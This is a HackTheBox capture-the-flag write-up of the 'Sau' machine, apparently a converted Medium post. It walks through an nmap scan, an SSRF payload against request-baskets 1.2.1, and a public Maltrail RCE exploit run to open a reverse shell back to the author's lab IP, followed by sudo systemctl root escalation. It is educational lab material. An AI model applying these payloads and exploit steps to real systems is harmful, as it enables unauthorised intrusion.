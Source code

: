 ![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/75a48453-834e-45b8-a2b0-9e06c0ed8f1e)
> medium-to-markdown@0.0.3 convert
> node index.js https://medium.com/@ahmedgomaa_45441/hackthebox-write-up-sau-machine-438bc39be33f

HackTheBox write up: “Sau” Machine
==================================

[![zerosandones](https://miro.medium.com/v2/resize:fill:88:88/0*g5iT_mFvpwS_KFyc)

](https://medium.com/@ahmedgomaa_45441?source=post_page-----438bc39be33f--------------------------------)

[zerosandones](https://medium.com/@ahmedgomaa_45441?source=post_page-----438bc39be33f--------------------------------)

·

[Follow](https://medium.com/m/signin?actionUrl=https%3A%2F%2Fmedium.com%2F_%2Fsubscribe%2Fuser%2Fa3f1b2b68ccf&operation=register&redirect=https%3A%2F%2Fmedium.com%2F%40ahmedgomaa_45441%2Fhackthebox-write-up-sau-machine-438bc39be33f&user=zerosandones&userId=a3f1b2b68ccf&source=post_page-a3f1b2b68ccf----438bc39be33f---------------------post_header-----------)

5 min read·2 days ago

\--

Listen

Share

Welcome to my first write up for Hackthebox machines!

i thought it would be a good way to help me understand the topics little bit deeper, as i am trying to explain them to others, as well as maybe help others, and share my thought process, breaking into the machine.

[![pic](https://miro.medium.com/v2/resize:fit:550/format:webp/1*OSckDAMfASUW56DpVUAr8w.png  " Sau Machine ( Easy )")]


Sau machine is your typical Easy linux machine, pretty straight forward in most parts, only one trick in obtaining user flag, and the privilege escalation is a straightforward one ( i spent 40 minutes on it, i might be a little bit stupid ngl ).

Okay, we start as we always do, with basic Nmap scan to the target, and see what do we have here,

[![pic](https://miro.medium.com/v2/resize:fit:640/format:webp/1*zXq9MMkP0_eMZfxkTcHn2Q.png)]

nmap -sV -sC 10.10.11.224 -v



We are using -sV and -sC here for probing the open ports and trying to get info about the version running by running it against default nmap scripts, the -v for verbose results showing, so we get an idea what is going in, while the scan is undergoing.

nmap scan results

[![pic](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*12PAu2RijS_6-IdBXiqXLA.png)]


We can already see here couple of intresting information, the most eye-catching the open port 55555, which we can see from the results runs some sort of a webpage, lets try to visit it and see whats going on!



[![Web interface](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*--XGicxW2ksrNoC19GN4nA.png)]


We are greeted with a web interface, that seems to make some sort of baskets, lets try all the functionalities to try to poke around and get a better idea of what does this application does.

[![](https://miro.medium.com/v2/resize:fit:786/format:webp/1*VbgzdLUJz2aexI4AZF1PEg.png)]


Created a bucket, and recieved respones

We can see here we created a bucket name “lol”, and it gives us an api url “[http://10.10.11.224:55555/lol](http://10.10.11.224:55555/lol)”, where if we send web requests to it, we can log the requests and the respone in the web interface, a simple get request with curl would be with command:

[![](https://miro.medium.com/v2/resize:fit:720/format:webp/1*_RNChTUNc7Ls-War1lTmcg.png)]


```
curl "http:10.10.11.224:55555/lol" 
```

Now if we take a look at the other fucntionalites provided, we can see in the settings, and option thats called: “Forward URL”

[![](https://miro.medium.com/v2/resize:fit:786/format:webp/1*lFzQY3Mc_EfadmPL7IqjqA.png)]


Forward URL? like can i send a request and the server forwards it? to anywhere? can it hit home? 127.0.0.1 kind of home? okay huge potential!

looking around in the other website pages and functionalities, i can help but see a footer that mentions the library used and its version, “request-baskets, version 1.2.1”

[![](https://miro.medium.com/v2/resize:fit:612/format:webp/1*vSB1Hv5E65XO6DtPfARVEA.png)]


okay, thanks for the doing th hardwork, lets see if we can find and public vulnerabilites regarding the version of the software

[![](https://miro.medium.com/v2/resize:fit:786/format:webp/1*Z2BRv6Dx2-fWj-ub1x23Ag.png)]

yeah, i think we pretty much found what are we searching for! ssrf vulnerable library, hehe

using assist from the detailed thread about the SSRF : [https://notes.sjtu.edu.cn/s/MUUhEymt7](https://notes.sjtu.edu.cn/s/MUUhEymt7#)

we see that the api /api/baskets/{name} is vulnerable,

and using the crafted payload to send a post request, that redirects to home(127.0.0.1) and sending it using postman

[![](https://miro.medium.com/v2/resize:fit:786/format:webp/1*zFCktzlRu2wSY_hJBf507w.png)]

```
{  
  "forward\_url": "http://127.0.0.1:80/test",  
  "proxy\_response": false,  
  "insecure\_tls": false,  
  "expand\_path": true,  
  "capacity": 250  
}
```

we can see, we have accessed internal page, in the footer of this page, we can notice the library and version, “Maltrail V0.53”.

Again, we lookup to see if there are any public CVEs related to it

[![](https://miro.medium.com/v2/resize:fit:786/format:webp/1*DsFLJ2vLWOuyX8vFkPYoCw.png)]


we can see there is an RCE exploit available, with POC, lets download this POC from github and see if we can run it!

now if we look at the exploit documentation, we can see the arguments it takes to run it

```
python3 exploit.py \[listening\_IP\] \[listening\_PORT\] \[target\_URL\]
```

in this case, we have

```
python3 exploit.py 10.10.16.7 4444 http://10.10.11.224:55555/lol
```

But before we run it, we need to have a listener running to catch the connection,( Since its a reverse shell, not bind )

[![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*UlDOL2EKC_lYNCeIOIMN6g.png)]

[![](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*tJiwKGcndwkcjWVQpu834Q.png)]


And after running the exploit, we can see, we have got our reverse shell successfully!

[![](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*mA3JeHlEP_YuDPnRKvO7yQ.png)]


we can then get our flag which is in the home/puma/flag.txt directory.

— — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — —

Now, we have the user flag, but in order to obtian the root flag, we need to escalate our privilges into root, there are multiple ways we can try to escalate our privilegs through, either with LinEnum or linPeas,

but like to first check manually if we can abuse any GTFObins that can give us root permissions, since its fast and easy step,

we can first start checking by running “sudo -l” to see what can run with sudo without the root password

[![](https://miro.medium.com/v2/resize:fit:786/format:webp/1*jz1XkSxq20DL371fDqwr3Q.png)]


we can see we can run systemctl with root without the root password, but can we maybe abuse it to give it root permissions? lets check if it is in the GTFObins…

[![](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*YkG-ou08zpsVQwFnbE0-sA.png)]


yessir! that means we can use it to escalate our priviliges, we can scroll down to see how exactly,

[![](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*Ctis-Jvt78tFai-8bOzHTw.png)]


Lets try ( C ) and see if it works,

[![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*woXC-9knl1Kl7Wwu2F45EQ.png)]


yessir!

we can find root flag under /flag.txt!

i hope it was helpful!

see you next time!

[![](https://miro.medium.com/v2/resize:fit:640/0*gCkCaZMd6bc7fUA3.gif)]



